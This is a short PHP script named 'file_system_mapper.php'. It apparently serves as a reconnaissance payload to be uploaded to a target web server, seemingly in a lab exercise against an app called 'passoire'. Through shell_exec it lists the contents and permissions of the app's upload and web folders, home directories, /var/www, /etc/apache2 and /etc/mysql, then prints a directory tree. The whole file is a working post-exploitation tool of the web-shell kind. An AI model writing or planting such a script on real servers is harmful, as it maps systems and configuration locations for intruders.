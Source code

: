 

**`file_system_mapper.php`**

``````

<?php
echo "<pre>";

// Function to list directory contents with permissions
function list_directory($path, $level = 0) {
    // Create indentation based on level
    $indent = str_repeat("  ", $level);

    echo "$indent📁 $path\n";

    // Get directory contents
    $command = "ls -la " . escapeshellarg($path) . " 2>/dev/null";
    $output = shell_exec($command);

    if ($output) {
        echo $indent . str_replace("\n", "\n$indent", $output) . "\n";
    }
}

// List key directories we're interested in
$directories = array(
    '/passoire',
    '/passoire/web',
    '/passoire/web/uploads',
    '/passoire/crypto-helper',
    '/home',
    '/home/passoire',
    '/var/www',
    '/etc/apache2',
    '/etc/mysql'
);

echo "File System Overview:\n\n";

foreach ($directories as $dir) {
    list_directory($dir);
    echo "\n";
}

// Also show overall directory structure
echo "Directory Tree Structure:\n";
$tree_command = "find /passoire /home/passoire -type d 2>/dev/null | sort";
$tree = shell_exec($tree_command);
echo $tree;

echo "</pre>";
?>
``````

